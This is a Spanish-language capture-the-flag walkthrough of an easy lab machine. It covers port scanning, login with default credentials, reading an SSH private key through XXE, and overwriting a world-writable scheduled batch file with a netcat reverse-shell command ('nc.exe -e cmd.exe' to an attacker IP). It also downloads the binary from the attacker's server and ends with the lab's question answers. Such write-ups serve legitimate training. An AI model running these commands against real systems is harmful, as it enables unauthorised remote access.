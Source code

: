 # Markup

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Reconnaissance (Reconocimiento):** Fase crucial en el proceso de pruebas de penetración, donde se recopila información detallada sobre el objetivo. Este proceso incluye el escaneo de puertos, el análisis de los servicios disponibles, la identificación de vulnerabilidades y la recopilación de datos sobre las configuraciones del sistema. Permite a los atacantes descubrir posibles vectores de entrada.
  * **Apache**: Servidor web que puede ser explotado si no se aplica la configuración adecuada o si no se actualizan sus módulos y componentes.
  * **SSH**: Protocolo seguro para acceder de manera remota a servidores, pero con configuraciones débiles (como claves predeterminadas o contraseñas débiles) puede ser una puerta de entrada.
  * **PHP**: Lenguaje de programación común en aplicaciones web; si no se configura de manera segura, puede ser vulnerable a inyecciones y otros ataques.
  * **Scheduled Job Abuse**: Los trabajos programados mal configurados o sin restricción de privilegios pueden ser explotados para ejecutar comandos maliciosos o obtener acceso a recursos restringidos.
  * **Arbitrary File Upload**: Vulnerabilidad en la que los atacantes cargan archivos maliciosos, como shells PHP, para ejecutar código en el servidor y obtener acceso no autorizado.
  * **XXE Injection**: Ataque de inyección de XML External Entity (XXE) que explota la capacidad de procesamiento de XML para acceder a archivos locales o realizar otros ataques como el denegado de servicio.
  * **Weak Permissions**: Permisos mal configurados en el sistema de archivos pueden permitir a usuarios no autorizados acceder o modificar archivos sensibles, facilitando la escalada de privilegios o la exfiltración de datos.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Windows** ya que su **ttl=127**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.95.192
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, los puertos **80** (**HTTP**), **22** (**SSH**) y **443** (**HTTPS**) están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales por defecto **admin**:**password**.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Order** e interceptamos las peticiones. Podemos observar que hay un XML External Entity.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html#main-attacks" %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a leer la clave privada de SSH del usuario.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos la copiamos y le damos permisos para loguearnos.

```bash
chmod 600 id_rsa
ssh -i id_rsa daniel@10.129.95.192
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Buscamos lo que nos preguntan.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este escenario, **job.bat** es un archivo utilizado para programar una tarea en Windows, que ejecuta el comando **wevtutil.exe** para registrar eventos. Este archivo es ejecutado de manera regular como parte de una tarea programada.

El objetivo es actualizar este proceso de **job.bat** de un script de shell simple a un script de PowerShell y verificar los procesos en ejecución con el comando `ps` en PowerShell.

```bash
icacls job.bat
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al observar que el `(F)` junto a **Users** en los permisos significa que **todos los usuarios** pueden modificar el archivo **job.bat**, se puede explotar esto para agregar un comando de **netcat** en el archivo. De esta forma, cada vez que la tarea programada se ejecute, la máquina víctima se conectará de vuelta a la máquina atacante.

En nuestra máquina atacante.

```bash
wget https://github.com/vinsworldcom/NetCat64/releases/tag/1.11.6.4/nc64.exe
python3 -m http.server
```

En la máquina víctima.

```bash
curl -o nc.exe http://10.10.16.35:8000/nc.exe
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos para generar una Reverse Shell.

```bash
echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.35 1234 > C:\Log-Management\job.bat
```

Nos ponemos en escucha y recibimos la conexión.

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### **Tarea 1**

**¿Qué versión de Apache está corriendo en el puerto 80 del objetivo?**\
**Respuesta:** 2.4.41

#### **Tarea 2**

**¿Qué combinación de nombre de usuario:contraseña inicia sesión con éxito?**\
**Respuesta:** admin:password

#### **Tarea 3**

**¿Cuál es la palabra en la parte superior de la página que acepta la entrada del usuario?**\
**Respuesta:** order

#### **Tarea 4**

**¿Qué versión de XML se utiliza en el objetivo?**\
**Respuesta:** 1.0

#### **Tarea 5**

**¿Qué significa el acrónimo XXE / XEE?**\
**Respuesta:** XML External Entity

#### **Tarea 6**

**¿Qué nombre de usuario podemos encontrar en el código HTML de la página web?**\
**Respuesta:** Daniel

#### **Tarea 7**

**¿Qué archivo se encuentra en la carpeta Log-Management en el objetivo?**\
**Respuesta:** job.bat

#### **Tarea 8**

**¿Qué ejecutable se menciona en el archivo mencionado antes?**\
**Respuesta:** wevtutil.exe

